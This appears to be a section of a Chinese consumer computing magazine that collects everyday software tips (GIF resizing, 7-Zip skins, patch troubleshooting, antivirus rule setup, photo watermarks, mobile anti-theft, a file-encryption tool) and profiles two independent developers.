更改普通图片的大小，很多方法都可以实现。但不少朋友却为GIF动画图片尺寸修改而烦恼，很多方法修改了GIF的尺寸后就变成了静态的。其实，只要你使用这款名为“GIF Resizer”的小工具（下载地址：http://www.ashongsoft.com/download-chs.html），GIF尺寸想大就大，想小就小。我们以修改一个实体GIF动画为例，运行GIF Resizer程序，单击“源GIF动画文件”后面的三点按钮，选择要修改的GIF动画图片文件，原先尺寸为146×146，现在想将其尺寸修改为300×300，只要直接在下面的尺寸调整区中设置好要调整的目标尺寸并设置好保存目录，为了保持尺寸修改后的质量，建议勾选“高质量”选项，单击“转换”按钮即可完成转换了。（文/daigua）

# 夏季，让我们给软件换新衣

爱美是人的天性，对于压缩软件来说，WinRAR有很多主题，装上后可以变得很漂亮，7-Zip就没有这么亮丽了，它要的是简单，试用的7-Zip美化工具效果也不好，还不如自己DIY呢！第一步：下载、安装并运行Resourse Hacker（下载地址：http://work.newhua.com/cfan/200913/meihua.rar），依次单击“文件→打开”找到已安装的7-Zip文件夹中的7zFM.exe可执行程序文件，在右侧展开Bitmap，在这里2002~2013为大图标，2082~2093为小图标，文中我们以修改大图标串表2002~2004，2010~2013之间的1033为例，分别用右键单击它们，选择“替换资源”，在打开的窗口中单击“打开新位图文件”，找到事先准备好的BMP图片（这些图标一般在30×30像素左右即可），单击“替换”接口。第二步：修改好以后依次单击“文件→保存”就可以了。要注意的是7-Zip工具栏显示的高度有限，你需要根据准备的BMP图标来重新设置7-Zip软件的显示菜单，比如你用的图标是大的，就在7-Zip的“查看”菜单栏修改为显示大按钮，因为修改的这个是大按钮嘛。小提示：当然若是你不满意WinRAR的主题，还想继续DIY一把，同样可以用“Resourse Hacker”打开“WinRAR.exe”可执行程序文件，来进行属于自己的换新衣。（云南/张航瑞）

# 不能只卖服装，不卖飞机——程序员的梦之路

近来，一个名为指尖操作系统的软件出现在人们的视线里，不少人拿它与Ghost进行备份功能的对比，显然我们都把它当成了一个系统辅助工具，或者是一个类似PE的系统。但实际上我们错了，虽然它还处在开发初期，但它是一个和Windows、Linux等操作系统一样的独立的操作系统。而这一切也是小白采访到指尖操作系统的开发者后才得知的。劲松和凯峰两个人，要走程序员最长、最难走的那条路——开发操作系统。

-   - **李劲松**
- **专业**：计算机应用
- **职业**：教师
- **毕业时间**：1992年
- **软件作品**：指尖操作系统

-   - **指尖操作系统**
- **开发者**：劲松，凯峰
- **开发语言**：汇编
- **软件性质**：免费软件
- **支持平台**：Windows 2000/XP。
- **下载地址**：http://www.os-z.com/

## 书中果有“颜如玉、黄金屋”

自己开发一款操作系统，在我们看来，这是怎样的雄心壮志，我们会在脑海里勾勒种种辉煌的开端。李劲松和他的伙伴凯峰做出这个决定的故事要从一句古语说起：书中自有颜如玉，书中自有黄金屋。
一次李劲松和凯峰去书店，无意中翻到一本杂志，上面介绍的操作系统引起了他们的兴趣，回家他们一实验，竟然可以在自己的电脑上启动，它不同于Linux，虽然没什么功能，但却采用的是图形界面，很漂亮。当时他俩正在为一家公司做ERP的开发，他就想这些程序都是基于Windows，使用VC、Delphi编写，但却可以独立启动计算机，还能在Windows的FAT32环境下工作，感觉特别有意思。而以前他俩虽然对Linux比较熟悉，但对原理的认识也仅仅限于教科书，他俩就想深入了解操作系统到底是怎样启动计算机的，并且很想自己实现一下。自然实现后的作品就是指尖操作系统了。

> > **小提示：**
> 知道开发操作系统的书并不多，当初李劲松学习开发系统时在三本书中获益，特别推荐给想动手开发操作系统的人，三本书分别是：赵炯的《Linux内核完全注释》、于渊的《自己动手写操作系统》、孟静的《操作系统教程》。另外，大家所不熟悉的，操作系统的内核都很小，Windows XP内核二进制文件1.1M，指尖操作系统的内核不会超过5MB。

## 星星之火 可以燎原

指尖操作系统的第一个版本在历时10个月的开发后，终于在2006年11月发布，当时还只能在软盘上运行，只有一个开始菜单，支持鼠标、键盘。后来经过他俩的努力，指尖操作系统不仅可以安装在闪盘、硬盘上，还有了如硬盘备份等实用的功能。开发操作系统，不熟悉的人也知道这是怎样的工程，一切都是全新的，就拿大家熟悉的JPG图片来说吧，我们觉得很简单，打开就看，但这就需要操作系统具备JPG解码器，劲松和凯峰单为这个JPG解码器就写了4个月。而比这更复杂的东西还要多得多，都要一点一点地来做。目前指尖操作系统的内核还没有完成，一位网友鼓励他们说“星星之火可以燎原，要有第三方软件接口，再支持一两个开发软件就可以燎原了！”这让他俩充满了战斗到底的力量。
目前，指尖操作系统的功能还不多，还只能充当系统辅助软件的角色，李劲松对此也认识得很清，先做好系统辅助软件的角色，然后再做主角，指尖操作系统有底层的基础，再做其他相对容量，没有制约。李劲松告诉记者：“艰辛的开发让我越来越感叹操作系统的先行者，也越来越欣赏Windows的开发代码，写得很优秀，但他们能写出来，相信我们也能，咱不能只卖服装，不卖飞机，更多的程序员实实在在地做点东西，国内的软件行业才有更多的创新。”听到这些，我对那些开发过和正在开发中国人自己的操作系统的人肃然起敬。

**小提示：**
目前指尖操作系统用户虽然不是很多，但已经有越来越多的个人和公司开始关注，对某些计算机的支持不是很好的问题李劲松也正在努力改善。下一个版本将增加对NTFS文件系统的支持，下半年，指尖操作系统会支持网络功能，目前网络模块的部分代码已经完成。

## 可视化备份、还原

安装完指尖操作系统后，在启动目录里选择Os-z.com即可进入指尖操作系统，依次选择“硬盘备份→备份分区”，选择保存路径、填写文件名称（如不填写，软件会自己默认按如CCC.ZPP的形式进行命名），点击“确定”按钮就开始备份了，期间可以暂停或中途取消。只有在备份完成时才会在硬盘中写入文件名和FAT表。
如果想还原，只需在“硬盘备份”中运行“恢复分区”，软件会自动填写备份文件名和路径（备份完成后，备份程序会记录下所选的分区及路径。分区及路径及文件名等信息保存在System.ini文件中），如果有多个，就要自己选择合适的了。单击“确定”开始恢复，中途可暂停但不要中途取消！因为这样会导致恢复数据不全，可以进行再次恢复，以修复不成功的数据。

-   > **小提示：指尖操作系统高级技巧**
> ★ 对于MBR损坏的硬盘，可以使用闪盘上的指尖操作系统启动，重新对硬盘进行分区格式化，可以支持30GB以上的FAT32分区，而Windows也可以很好的识别。
> ★ 使用指尖操作系统硬盘备份/恢复功能，可以快速安装DOS等系统软件，包括带Ghost的DOS工具软件。

(本刊记者/白斌)

# 软件生病有补丁 补丁生病怎么办

每次重装系统之后都需要下载N多补丁一个一个地安装，有时还要注意先后顺序，这时，许多工具软件就能够帮助我们下载补丁并能依次安装好，真是省时、省力、省心。可是，有时工具软件安装补丁时会提示安装失败，这该怎么办呢？

## 修护系统 不要“冤枉好人”

补丁打不上先别抱怨安装工具，系统本身是不是出问题了呢？首先我们要看下Update.inf，如果提示无法验证Update.inf的有效性，那就是系统的“加密服务”没有打开，启动“控制面板”，依次选择“性能和维护→管理工具”，双击“服务”，右键单击“Cryptographic Services”服务，查看“属性”，将“启动类型”改为“自动”，然后单击“启动”，再重新安装补丁就好了。

> **小提示：**
本文所探讨的是那些排除基本故障的方法，像那些换用手动安装、服务器连接问题、重启再安装的故障就不用我们再提了，其他系统故障造成的手动安装也失败的问题，可参考http://support.microsoft.com/kb/822798/zh-cn。

## 核对版本 避免“驴头对马嘴”

补丁都是基于一定的软件基础的，对于一些大软件，发布的补丁数量比较多，往往会发生之前的补丁没有打造成后续补丁无法安装的问题。例如最近大家都在讨论360安全卫士安装不上KB969604、KB969682两个补丁的问题，明明用的是Office 2007，360却提示“未找到相应版本”。
其实这就是因为Office 2007之前的补丁没有打，KB969604、KB969682两个补丁是针对Office 2007 SP2的，如果没有安装SP2补丁（360安全卫士不提示这个补丁），就出现了无法安装的情况，我们先安装SP2补丁，再用360安全卫士安装KB969604和KB969682就可以了。
除了补丁问题，造成版本不匹配的原因还可能是系统中保留着其他版本的Office信息，这就要麻烦一些了。运行Windows Installer Clean Up（下载地址：http://work.newhua.com/cfan/200913/msicuu2.rar），在列表中找到以前的Office版本（确认已卸载的老版本），单击remove（移除）后退出即可。

## 保护工具 避免“出师未捷身先死”

在我们使用工具进行补丁安装时，也要注意对这些工具的保护，例如360安装卫士出现故障时，给的提示就不准确了，你已经打的补丁或许一直会提示需要安装，例如当360安全卫士的数据文件损坏时，在“开始”菜单的“运行”中输入regsvr32 msxml3.dll（用来注意XML文件解析），再检查下WINDOWS目录下是否有$hf_mig$（隐藏文件夹）这个文件夹，它会让360安全卫士安装补丁时找不到路径，有的将其删除就可以了。

(文/夏丛林)

# 分区变了 别再让快捷方式“独守空房”

重装操作系统，想必是很多朋友经常要做的功课，很多人都会记得备份下绿色软件的快捷方式，但有时分区变了，这些保留的快捷方式怎么用呢？一个个改？费时费力还容易出错，教你一个好方法对它们批量修改吧！

-   第一步：下载并运行Link Changer V1.0 build 1224（下载地址：http://work.newhua.com/cfan/200913/LinkChanger.rar），单击Dirs（快捷方式）按钮，打开要修改的快捷方式所在的目录（通常为桌面），单击“确定”。

-   第二步：如果桌面上的所有快捷方式都指向同一个目录，那么则全选左侧列表中的快捷方式进行修改就好了。但实际上没这么好的情况，桌面上的快捷方式分别指向不同的目录（如影音播放类工具存放于“E:\yingyin”，电子阅读类工具存放于“E:\yuedu”，系统类的工具存放于“E:\xitong”），那么，则在Ctrl键的配合下，选定同一目录下的快捷方式，然后勾选Path（路径）复选框，在其下左边填写原来快捷方式的路径，右边填写现在快捷方式的路径，例如将原来位于“D:\yingyin\”目录下的影音程序修改为“E:\yingyin”，最后单击Do Replaces（替换）按钮这一组快捷键就一起改好了。

(辽宁/乔珊)

## 魔法设置逞英豪——超级兔子9.0 Beta2版

长久以来，优化我一直坚持用兔子。超级兔子里面的软件很多，涉及到系统硬件、安全守护之类的我也都用兔子搞定了。最近兔子出了新版本的9.0 Beta2软件，笔者探索试用，把“魔法设置”的使用心得尽述于纸上，供各位参考。

### 系统文件偷偷变

系统安装好后，随即产生了很多用户文件，这些目录都储存在系统盘里，换个更安全的非系统盘时，常是我们进行的操作。一般方法很麻烦，进入超级兔子的“优化→魔法设置→系统→系统文件夹”，在这里我们看到了所有系统创建的与账户有关的文件目录：应用程序数据、收藏夹、我的音乐等。如何换呢？右键单击，选择“更改”，指定目录后单击“应用”即可。

### 启动项目统统管

魔法设置是超级兔子的拿手好戏，切换到“启动程序→自动运行”选择开机要执行的程序。如果下次开机不需要执行这些项目，只需取消前面的勾选就OK了。“启动程序→系统服务”里可以自定义减少程序令系统更顺畅，在其自定义里可选择安全、建网、单机游戏、最大性能等优化方案。在这里，笔者建议要小心使用，系统本身需要的服务绝对不要停止，否则则会导致故障。推荐大家使用标准个人电脑优化来一键搞定。

### 热键运行悄悄改

玩游戏的读者最讨厌的按键就是Win键了，以往我们都动用注册表来屏蔽它，其实超级兔子做起来要容易得多。在上面的魔法设置里，切换到“个性化→键盘”下，在“屏蔽按键”后的列表中选择“左Win”，单击“添加→应用”，然后重启计算机就生效了。如果要恢复，只需再回到那个设置界面，选中屏蔽的按键，右键单击，选择“删除”即可。

### 图标丢失静静找

音量图标没了，光驱盘符丢了……这些故障都是司空见惯的，修复起来往往很麻烦。现在可以直接在魔法设置里统一管理，切换到“文件及媒体→文件系统修复”，勾选“修复音量图标、光驱盘符图标丢失修复”，单击“应用”即可。

小提示：如果你修改了桌面图标后发觉不好看，想改回去，只需要选择想恢复的图标，点击“桌面及图标→桌面图标→复原”就可以了。另外在桌面墙纸里可以方便地添加删除设置墙纸管理，让单调的桌面换个好心情。

## 搜狗输入法教你认识生僻字

遇到不认识的生僻字怎么办？用金山词霸可以查到它的读音，现在有了搜狗输入法，方法更简单。在输入生僻字的同时就可以准确地知道该字的拼音，并且包括声调，这样不仅能拼准，还能读准需要的文字。下面我们来试一下：

### 拼音输入偶遇生词

启用搜狗拼音输入汉字时，先输入u，然后依次输入汉字的笔顺代码（h横、s竖、p撇、n捺、z折或1、2、3、4、5），该字的完整拼音出现在外码窗口中，另外，还可以通过搜狗搜索，了解这个汉字的含义，这种获取汉字拼音的方法只适合单个汉字。

### 五笔输入偶遇难词

安装最新搜狗五笔1.5版，调用搜狗五笔输入汉字时，先按默认快捷键CTRL+SHIFT+Q，启用拼音提示功能，在用搜狗五笔输入的汉字上屏之后，将出现完整的拼音提示。这种获取汉字拼音的方法对单个汉字和词组的输入同样适用。

(武汉/在水一方)

## 雁过留声 人过留名 文件分享加烙印

版权的问题放到自己身上总是会死命保护的，自己辛苦完成的方案、视频，很可能被别人复制。这复制、分享没问题，但要知道是谁做的吧。如何让文件带上自己的烙印呢？

### 实例1 要面子 图片上打LOGO

色友最大的乐趣，就是把自己的得意之作与网友一起分享。在分享之后该如何让网友记得是你呢？起码有个辛苦价值吧！面子上得过得去，那好，咱就给照片加上自己的水印吧。

第1步：用光影魔术手（下载地址：http://www.neoimaging.cn/）打开需要添加水印的相片，选择菜单栏的“工具→水印”选项，打开图片水印标签。

第2步：在该对话框中，我们总共可以选择3个水印插入到相片中。选择某个水印标签，然后勾选“插入水印标签X”复选框，然后点击“水印图片”后面的浏览按钮，打开此前已经做好的水印文件（一般为png或psd格式）。

第3步：接下来再设置一下水印在相片中的位置、透明度。如果水印过大或过小，可以拖动“缩放”滑杆缩放至合适大小。最后单击“确定”按钮就可以将水印插入到相片中了。水印加入后，如果效果满意，那么只需点击菜单“文件→另存”将相片另存即可。

小提示：除了利用图片制作软件自行制作水印之外，我们还可以到http://fodder.neoimaging.cn/watermark/寻找下载他人制作好的水印素材，共有3000多张的水印素材。

### 实例2 装好人 照片背后留一手

照片打LOGO在很多人看来显得太小气，那能不能做点隐蔽的呢？既大气又保险，这种“伪君子”的方法有吗？当然，别忘了EXIF啊！

第1步：下载安装Photo Info v1.0 汉化版（下载地址：http://work.newhua.com/cfan/200913/PhotoInfo.rar，软件需要.net framework的支持）。在图片上点击鼠标右键，选择“图片信息”，打开程序主窗口。点击“描述”标签，在这里可以设置照片的“标题”、“作者”、“描述”等信息，在“版权”输入自己的版权信息，或者是勾选“版权：自动生成一个版权提示”让程序自动生成一个。

第2步：点击“来源”标签，在这里，拍摄照片的“日期”、“地点”、“城市”三个选项中你随便挑一项，输入自己的昵称或代号，最后单击“应用”按钮即可。这样Photo Info就可以修改照片的EXIF信息并为我们添加上版权信息和个人信息了。

## 告别白纸黑字，享受读纸质小说的原汁原味

喜欢看书的人绝对是对电子书比朋友还亲，但久而久之，白底黑字的电子书已经看得不爽了，时常想感受下真书的味道。这个要求过分吗？如果不，那为什么不满足一下呢？这不，最近看起第三遍《康熙王朝》来，这次定得找找原书的感觉。要寻找原汁原味的读书感觉就要安装3DBOOK (http://www.skycn.com/soft/32982.html)了。安装后先将保存的《康熙王朝》TXT电子书复制到3DBOOK安装目录中的Books目录下(默认为 C:\Program Files\3DBook\Books)，运行3DBOOK，单击“书架”按钮，你就看到了立体的书本，滚动鼠标滚轮，找到自己正要读的那本，单击OK，古色古香的书本就展现在你面前了，看完一页，咱得翻页啊，按住鼠标左键，从右往左拖动一下，书本就翻页了，和看书的感觉一样！

看完这个3D的，你是不是心动了呢？当然还有些人不想换软件，例如一直用“小说下载阅读器”，那它能带给我们真书的感觉不？用它打开电子书后，单击文字内容上面的“全文书页式阅读”，这时一本书就打开了。只是样子比3DBOOK差点。

> 小提示：软件暂时只支持TXT格式的电子书，在书架模式中，鼠标点住空白处进行拖动可以变换视角，下方会有当前电子书的内容提示。(山东/崔庆红)

## KMS 8.0造就失而复得的手机

老王新买的高档手机丢了，大家都在替他着急。可没过几天，他的手机又找回来了，碰上好人了？他笑道：“不是碰上好人，而是我的手机安装了高档的包含‘密探007技术’的杀毒软件”。大家盘问半天才知道他安装了卡巴斯基手机安全软件8.0 (以下简称KMS8.0，下载地址: http://mobile.kaspersky.com.cn/)，这个杀毒软件可以帮他找回手机？还是看看他的这段故事吧！

### 精彩回放 看老王未雨绸缪

- 第一步：老王在手机上安装好KMS8.0 (要激活KMS 8.0，注意手机必须要有GPRS可连接到Internet，另外也可通过手机浏览器登录wap.kaba365.com来进行下载)，依次点击“菜单→反盗窃”，根据提示设置好密码，如：123456，即可进入“反盗窃”设置界面，依次单击“SIM卡状态监控→确定”，输入老婆的手机号，如输入：12345678912。
- 第二步：在“反盗窃”标签“远程删除隐私”项上点击，注意在窗底左端点击“确定”，并根据提示选择好能远程删除的文件夹，最后点击“确定”完成反盗窃功能设置。而且老王的手机带有GPS模块，这会帮到他找到丢失手机的位置；切换到反盗窃标签并选择设置中的“GPS寻找手机”项，输入密码启用该功能。

> 小提示：手机被盗后对方肯定会换卡，而在上面的步骤中，如果我们在锁机功能下勾选“锁机”，这样对方换卡时手机就进行锁机保护。但锁机很容易破解，小编建议不要开启这一项，关键是后面我们还需要手机开启呢！KMS 8.0的更多使用方法可以访问http://www.kaspersky.com.cn/mobile/

### 激动人心 让手机失而复得

手机丢失了，老王在懊恼之后终于清醒过来，想起手机里存有重要的资料文件或者是个人隐私，于是拿来老婆的手机编写了一条“Clean:123456”（双引号不用输入，下同）的信息发送至自己原来的手机号上，这样他自己手机里设置的联系人名单、收件箱、个人文件等都会自动删除了。信息删除了，手机怎么办呢？老王正着急，发现老婆的手机上收到了KMS8.0发来的国际短信，看来是对方换了手机卡，而这就是那个新号。幸好，老王的手机带有GPS功能，这时编写“Find:123456”短信内容发送到那个新号码，此时丢失的手机便会自动将其所在的地理坐标以短信的形式回复到请求设备上。此时老王利用其他GPS协助，通过短信反馈便可很容易地找到丢失的手机现在在谁的口袋了。(湖南/笑笑先生)

## 系统加固之瑞星深层防护

上期我们介绍了智能主动防御中“系统加固”的一些功能，下面我们一起来将主动防御功能发挥到极致，通过规则，按照这些操作后就可以对基本的文件关联、系统注册表、服务、文件夹进行保护了，这里只是给大家举了一些具体的例子，大家可以按照这种操作方法举一反三，设置一套适合自己的主动防御方案。

### 保护文件关联

- 文件关联，就是将一种类型的文件与一个可以打开它的程序建立起一种依存关系。举个例子来说，位图文件（BMP文件）Windows中的默认关联程序是“画图”，如果将BMP的文件关联改为病毒程序的话，每当你打开一个BMP图片，病毒就会被激活一次。那如何来保护文件关联不被更改呢？第一步：打开瑞星全功能安全软件2009，点击“设置→防御设置→应用程序控制”，点击左下侧的“添加”。在“选择规则进程列表”处选择“*”，点击“下一步”。在“选择模版”处点击“普通应用程序模板→完成”。第二步：依次单击“注册表访问→启用0条规则→添加规则”，在“规则名称”中填写“VBS文件关联”、“监控目标”输入[HKEY_CLASSES_Root\VBS\]，VBS这条规则添加完毕（监控键、包含子键要勾上）以后，再次点击“添加”把其他的文件关联（VBS、JS、JSE、WSF、WSH、PIF、LNK、SCR）都加上，方法是一样的。

### 保护启动文件夹

大多数病毒要实现开机启动都会在注册表中的RUN下建立启动项，但目前流行的很多木马，不但会修改RUN下的键值，还在Windows的启动文件夹下做文章，而这块儿地方正是很多人平时所忽视的。紧接着上面第一步的操作，不同的是依次点击“文件访问→启用0条规则→添加规则”。规则名称填写“添加启动文件夹”、“监控目标”输入：C:\Documents and settings\Administrator（或All user，其他当前用户名）\[开始]菜单\程序\启动。而保护服务的方法基本上与第一项保护文件关联的方法是一样的，就是具体的注册表位置不同而已，需把监控目标设置为[HKEY_LOCAL_MACHINE\SYSTEM\Controlset001\Service]。

## 微软新宠 MSE 实测一二三

微软终于忍不住推出了自己的杀毒软件Microsoft Security Essentials (MSE)，功能比较简单，却也引发了下载狂潮，究竟如何呢？且看我们在第一时间进行的测试。

### 病毒统一叫威胁

安装后首先看到的是“主页”界面（见题图），扫描关键区和扫描全盘可以在扫描选项中通过“快速、完全”来区别，如果要自己指定目录的话，先勾选“自定义”，然后单击“立即扫描”才弹出目录选择窗口，选中后单击“确定”才真正开始扫描。当检测出病毒来时，提示的是威胁，在主页中单击“显示详细信息”，MSE检测出的病毒会提示有危险，但并没有给出病毒名称，严重级别建议的操作是“杀毒”，可选中单个威胁后单击“应用操作”处理单个病毒，也可以单击清理计算机来做所有操作。在病毒样本测试中，老病毒包检测出3506个威胁（NOD32检测出3462个病毒），新病毒包（7178个病毒）检测出3509个威胁（NOD32检测出6924个病毒），水平一般。

> 小提示：在安装MSE的时首先会进行Windows正版验证，正版和OEM版本都是可以安装的，而如果是非正版的话重启后就会无法进入系统。在使用上网本测试中MSE查毒会出现假死。

### 小负累大反馈

MSE功能不多，但很多地方还是需要进行一下实际的调整。先进入“设置→高级”一项，在右侧中勾选“扫描可移动驱动器”，取消“创建系统还原点”（此项作用是杀毒前先创建一个系统还原点，但系统还原我们普遍关闭了，所以推荐取消了，也可以保留此项），最后单击“保存更改”。接下来更改下反馈机制，单击“设置”按钮进入Microsoft SpyNet，右侧勾选“高级成员资格”，单击“保存更改”，这样将自己电脑上出现的威胁信息（如病毒、恶意软件信息）发送到Microsoft SpyNet社区，有助于即时分析。

### 有效排除 高级监控

MSE中提供了丰富的排除选项，类似于杀毒软件的“白名单”，进入“设置→排除的文件和位置”，单击“添加”指定自认为安全的文件。而进入“排除的文件类型”，需要输入“*.MP3”后单击“添加”来排除MP3类的文件，不支持批量添加。而保护特殊进程的话，进入“排除的进程”，单击“添加”，找到可执行文件添加进来，来排除实时监控的程序。(山东/张志国)

## 不玩躲猫猫 “千千”自觉靠边

听歌时播放器的软件窗口往哪放一直是个问题，总是拖来拖去的，千千静听更新版本后（下载http://ttplayer.qianqian.com/）就学乖了，靠近屏幕就能自己靠边，桌面歌词也能随用随清，不信你瞧！运行新版千千静听后，当软件界面靠近屏幕四周时，软件就会自动贴靠到屏幕上，但默认情况下只有靠得很近时才管用，我们要改变下，右键单击，选择“千千选项→常规”，然后在勾选的“当窗口靠近时自动粘合”后面的像素数设置为一个较大的值，例如80，然后单击“全部保存→关闭”，这样当千千静听界面靠近屏幕四周80像素时就自动粘合在屏幕上了。下面就要说桌面歌词了，千千静听加入桌面歌词后，有了锁定功能，但往往锁定后不知道如何办了，现在激活千千静听窗口后，直接按Ctrl+T就可以返回原来的模式了，乖了很多。而如果只要解锁，那么右键单击任务栏图标，选择“解锁桌面歌词”即可。(北京/——)

## 给你看隐私中的隐私 隐私保护软件的开发故事

自从“XX门”后大家对隐私的关注急剧提高，如果去修电脑，肯定先问能不能自己留着硬盘。同时，保护隐私的软件也着实火了一把。电脑里保护隐私的文件怎么保护呢？加密！对，文件密码箱就是专为保护文件而开发的。不过今天，我们也来看看它的隐私，它是如何开发以及如何使用的？

| 姓名 | 孙超仁 |
| :--- | :--- |
| 专业 | 计算机 |
| 毕业时间 | 1998年 |
| 职业 | 软件开发 |
| 软件作品 | 文件密码箱 |
| 开发语言 | DELPHI |
| 软件性质 | 免费软件 |
| 支持平台 | Windows 2000/XP/2003/Vista/ |
| 下载地址 | http://7safe.cn/ |

### 十年磨一剑

兴趣不仅是最好的老师，还能让人为它乐此不疲。他热爱软件开发，大学一毕业他就创办了自己的软件公司，10多年来一直走在软件开发的道路上。文件密码箱如同一张岁月的邮票，见证着他10多年的奋斗。写一款文件加密软件的想法在他刚创办公司时就有了，当时他特想给一些文件加密，但市面上有很多加密软件是一些底层隐藏之类的伪加密，会导致文件丢失，不敢乱用，于是就想自己开发一款。他利用工作之余开始逐步写软件，刚开始，软件只在自己的朋友圈子里使用，2004年较满意的2.4版诞生，他才将软件发布到互联网上，只是工作一忙，更新总不及时。2008年10月，因为参加一个软件比赛，他重新整理并发布了新版，借助比赛的力量，用户逐渐增多，这让他感受到肩上的责任越来越重，于是决心对软件进行持续完善和提升，于是一个又一个新的版本不断诞生，而更多的技术和创新也在这些新版本中不断应用。

### 小软件大学问

谈到软件开发，他告诉记者：“要么不做，要做哪怕是很少的工具软件也要本着做精品的态度，尤其是加密软件，加密的都是重要文件，软件的品质非常重要。”一旦出现什么问题，他就很着急。那次软件刚发布2009.F版本，但发布后却发现和防删除进程及输入法冲突，会造成屏幕假死，虽然这个版本他自己测试了很久，但没想到还是出了大问题。当时他非常着急，心想“软件已经发布了，必须一个通宵把问题查出来，找出解决方案，否则会有更多的人下载这个带有BUG的版本”。还好到清晨的时候他把问题定位了，后来相隔不到3天就发布了升级版2009.G版，曾经还有人写邮件问他，为何那么快发布两个版本，其中的苦只有他自己知道。

### 动态加密 安全不担心

电脑里的一些文件不想让别人看，如何保护呢？这就要先在电脑里建立一个“保险柜”来保存这些贵重东西。软件启动后，单击“新建密码箱”，选择保存目录，输入“保险柜”的名字（即文件名）：“我的私人文件”，单击“打开”，输入密码如123后单击“确定”。在软件左侧展开“我的私人文件”，出现一个“新建文件夹”，右键单击选择“文件夹更名”，输入“文档”，选中文档，单击上面的“导入文件”，选择要保护的文件，并选中“删除密码箱外的源文件”，单击“确定”完成添加。现在文件就保护好了，删除、移动、复制都不行了。要打开，必须知道密码。

技术揭秘：密码箱中每个文件会在写入磁盘时随机选择一个加密算法加密，并且密码箱中文件在每次编辑回存时都会再次重新选择加密算法，这样可确保密码箱中存储的文件是多种加密算法的混合加密，且每个文件又是动态加密，极大增强了破解的复杂度和难度。

### 移动加密 一点不落下

在加密或保密过程中遇到停电、关机之类的异常怎么办呢？软件开发了异常保护机制，再次启动，软件会自动恢复到密码箱的最近一次正常状态。重装系统后，再次安装软件即可使用。平时把文件拷贝到U盘上如何保护呢？启动“文件密码箱”，依次单击“密码箱→选项设置”，在应用模式中选择“移动加密方式”，将软件和建立的密码箱文件复制到U盘中，随U盘移动即可，加密功能不变。

技术揭秘：文件密码箱的异常保护机制借鉴了DBMS（数据库管理系统）的预写日志机制，在每个涉及密码箱内部写操作之前，将内部文件分配表预写到一个加密的日志文件里，直到整个写操作成功完成才最终更新日志文件的状态，若写操作中途异常终止，重新打开密码箱时会根据日志的状态对存储区的数据进行恢复。

- ★文件密码箱启动后会添加自启动文件和右键菜单，可直接在文件上右键单击选择“添加到密码箱”添加要保护的文件。
- ★移动加密方式不会向系统添加任何信息，右键菜单没了，而加密功能都可以使用。但是密码箱也无法防止删除、移动和复制了。
- ★软件类似于winRAR，只是功能是加密，对文件的操作都要在打开软件后操作，软件专门有卸载程序，右键菜单和注册信息都能清除干净。
- ★选中密码箱里的文件，依次单击“文件夹→将文件夹导出成独立密码箱”，可将文件单独导出为密码箱文件。而选择“将文件夹导出成自解压EXE文件”，可将加密文件导出为一个EXE文件，打开输入密码后，文件夹会自动释放为普通文件。

（本刊记者/白斌）

## 神啊！求求你让我安心工作

生活在这灯火辉煌的花花世界，有太多太多的诱惑，甚至就连在电脑上办公时都会无法认真工作，总是没事便瞥一眼QQ好友列表，看有没有人要找自己。有时自己想要认真工作了，一个好友发来一篇有趣的帖子，总是无法安安静静、彻底抛开一切杂念好好工作。这也是现代人典型的都市病。既然内在的弱点无法克服，那就想办法用外物解决吧。

### 普通篇

适用人群：有一定自制力的大众人群

自制力稍高的人呢，一般是不会受到影响。我们要做的呢，就是简单地把干扰项降低。

第一步：首先把电脑设置为静音，然后打开MSN，单击菜单栏的“选项→通知和声音”，将上面的“通知”和“声音”一栏中的所有项目都取消勾选，单击“应用”。再启动QQ，将状态切换为“请勿打扰”，这样两大元凶QQ和MSN就不会有任何反应了。安心工作吧，工作完再查看消息就可以了。

第二步：办公的人还会面对邮件提醒，其实再着急的邮件也不用立即去回的，所以我们要取消提示。Koomail用户呢，需依次单击“查看→来信通知管理”，取消对“收到新邮件时显示该邮件通知”的勾选。Foxmail用户呢，只需依次单击“工具→系统设置”，取消对“当收到新邮件时显示提示框”的勾选，单击“确定”。

小提示：还有一些人比较特殊，对事情的注意力呢需要转移一下，不适合禁止而适合疏导，在取消上面的提示后，还需要听歌让自己更清静下来，这就要看各自的爱好了。如果不是特别依赖QQ、MSN的人，可以勇敢地关掉它们，这样就静心很多。另外，浏览网页时就不要点击旁边的链接，这往往成为转移注意力的引子。

### 高级篇

适用人群：自制力特别差的IT人群

对于自制力极差的人来说，电脑的任何风吹草动都会引他分心。既然这样，只能用怪异的手法了。用枯燥的写字板工作了。

第一步：下载Q10（下载地址：http://baara.com/q10/），打开Q10后，软件自动全屏，而且没得选，想要窗口化也不行，这样你看不到任务栏的各种闪烁的提示，看不到网友发来的链接，看不到各大网站的入口，只能专心致志的工作了。是不是占满整个屏幕也看不到选项的它有了一丝丝恐惧呢？按下F1，就会弹出各种快捷键帮助，Ctrl+P是设置，首先设置好编辑区和信息栏的字体及背景色（我的是黑底白字，能够促使人工作）。

第二步：通过快捷键帮助我们知道按下Ctrl+U能够设定全局目标，比如400个字符，12个段落或者30行等等。在下面的信息栏里就会显示目前完成任务的进度百分比。按下Ctrl+K能够显示统计，包括段落、页、行等。

第三步：按下Ctrl+T能够设定提醒，比如40分钟，因为工作时也需要休息一下，这时可以做做眼保健操或其他休息方法。等到工作结束后，可以按下Ctrl+S保存文件。等到下次需要打开时可以按F6显示最近打开文件列表。

### 安心工作的妙招

1. 早起早睡。加班加点工作到很晚可能会引发恶性循环——工作到很晚通常会使你起得晚，然后又导致你要工作到很晚。如此循环。在一个星期内强迫自己早点开始工作，早一点关机睡觉。开始这样做很困难，但你会很快发现，早点开始工作能够使你每天有做计划的时间，从而提高了你的工作效率。
2. 控制干扰。不要让料想不到的电子邮件、电话和会议打乱你的工作计划，从而使你不得不加班。
3. 不干私事。在工作时间为私人事务分心。在工作时完全不考虑私人事务是不现实的，因此要对付账单、写感谢卡和其他影响工作效率的事情进行统筹安排。这些小事情会影响你的工作。如果你将很多时间用于与工作无关的事情，那么晚上要加班就是不可避免的。
4. 信赖电子邮件。许多日常的交流通过电子邮件就可以完成，不一定非得用QQ或MSN。使用电子邮件可以使你避免聊天，还方便查阅。除了特殊工作外，绝大多数工作都是能够利用电子邮件处理好的。
5. 今日事，今日毕。白天完成不了任务，养成了熬夜的习惯。熬夜会使你工作效率降低，直至危害你的健康。因此要想方设法提高工作效率，做到“今日事，今日毕”，但绝对不能熬夜来完成。

### 缓解疲劳的七大唱片

- Eels《Beautiful Freak》
- Hood《The Cycle of Days and Seasons》
- 群星《Heavenly Voices Part V》
- Mus《El Nave》
- The Divine Comedy《Regeneration》
